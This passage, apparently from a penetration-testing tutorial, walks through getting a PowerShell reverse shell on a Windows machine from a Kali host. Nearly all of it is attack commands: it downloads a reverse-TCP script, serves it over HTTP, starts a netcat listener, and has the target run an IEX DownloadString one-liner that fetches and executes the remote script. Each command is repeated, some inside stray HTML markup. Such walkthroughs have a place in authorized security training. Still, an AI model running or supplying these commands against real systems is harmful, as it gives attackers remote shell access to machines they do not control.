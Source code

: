 We have to go to the website listed below. It is a Github website, you must download the link.

wget https://raw.githubusercontent.com/ivan-sincek/powershell-reverse-tcp/master/src/powershell_reverse_tcp.ps1

wget https://raw.githubusercontent.com/ivan-sincek/powershell-reverse-tcp/master/src/powershell_reverse_tcp.ps1

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
wget https://raw.githubusercontent.com/ivan-sincek/powershell-reverse-tcp/master/src/powershell_reverse_tcp.ps1
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEjC7IWCO7bLYty4L5vkj4d85H1QyX380A4WHbc6deoZL5E_nNedAHOULYBjwoyjORXk7qmC0K3oPzwdyRb07knSX75Wj4Xoq7tv_cxrpRv0iDTSt7RX29OlI01gg3mdceH6tBhLnE23k0_iQS-WQCGcO6jEM2T0HodePDft1_T8EDgMo_iv-2tjVcSfcg=s16000)

When the script has been downloaded, simply examine the code within it and replace the IP address given there with our local IP address (Kali IP address). Once the changes are done save the file and start the python server.

python -m SimpleHTTPServer 80

python -m SimpleHTTPServer 80

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
python -m SimpleHTTPServer 80
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEjmRHyoe_GLHGx4lKpDl4d3z5obilyzgJ5qmpV4Pidb8KcP04CxIER6TmzIg2mrJB8Dm2O9-HW61pw3A_JaETTojgvAxfgbEGK-HCfPmb8MFQ_5DGJfk4BY7qrV4IvnUklGhUOOX25p24T2Ag9RKrXYK_DKixAXhEmmgMBktsT_sdaGXGJlkHPlhMTyqg=s16000)

After that start the Netcat listener on port 9000 for obtaining a reverse connection.

nc -vlp 9000

nc -vlp 9000

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
nc -vlp 9000
</pre>

We must run the following command into the command prompt of the Windows machine. It will help us in running the reverse tcp.ps1 file. Remember that the IP address should be your local IP address (Kali IP address). The command will assist us in obtaining the reverse shell.

powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3/powershell_reverse_tcp.ps1')

powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3/powershell_reverse_tcp.ps1')

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3/powershell_reverse_tcp.ps1')
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEh3Fs6481ueGXoDSCZctDvArdCX3x2AyTUv0vm9_gFzL4iL0Ek0rVeyaoz94d1PYjYG8UKRB8CLQNlvwGYyt9xbgtNwdectfquQQMqOv_t55yS3A9IG7R8a-TRfpS_vDuX1nhY5ICVcjqFs2tPvXkkNF-Bvm48oZBD86KEz1uvK941AcKtu0xmyWIou4Q=s16000)

As soon as the command is executed, we get the reverse shell.
